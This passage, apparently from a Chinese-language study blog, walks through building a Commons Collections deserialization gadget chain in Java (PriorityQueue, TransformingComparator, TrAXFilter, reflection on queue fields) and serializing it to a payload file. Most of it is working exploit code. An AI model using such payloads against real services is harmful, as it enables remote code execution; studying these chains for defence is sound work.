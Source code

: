 ```java
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templatesClass}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer,null);
        PriorityQueue<Object> priorityQueue = new PriorityQueue<>(1,transformingComparator);
        Field size = PriorityQueue.class.getDeclaredField("size");
        size.setAccessible(true);
        size.set(priorityQueue,2);
        Object[] array = new Object[]{1,2};
        Field queue = PriorityQueue.class.getDeclaredField("queue");
        queue.setAccessible(true);
        queue.set(priorityQueue,array);
        serialize(priorityQueue);
        unserialize("cc6.ser");
    }
    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("cc6.ser"));
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}

```

### add添加

也可以向queue add进元素，进而调用offer对size进行添加。

但是offer方法里的siftUp会再次调用到chainedTransformer。有点类似URLDNS了，需要add前添加不需要的comparator，add后再修改，防止误调用

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240802144518621.png)

```java
		TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer,null);
        PriorityQueue<Object> priorityQueue = new PriorityQueue<>(1,new TransformingComparator<>(new ConstantTransformer<>(1)));
        priorityQueue.add(1);
        priorityQueue.add(2);
        Field compareField = PriorityQueue.class.getDeclaredField("comparator");
        compareField.setAccessible(true);
        compareField.set(priorityQueue,transformingComparator);
        serialize(priorityQueue);
```
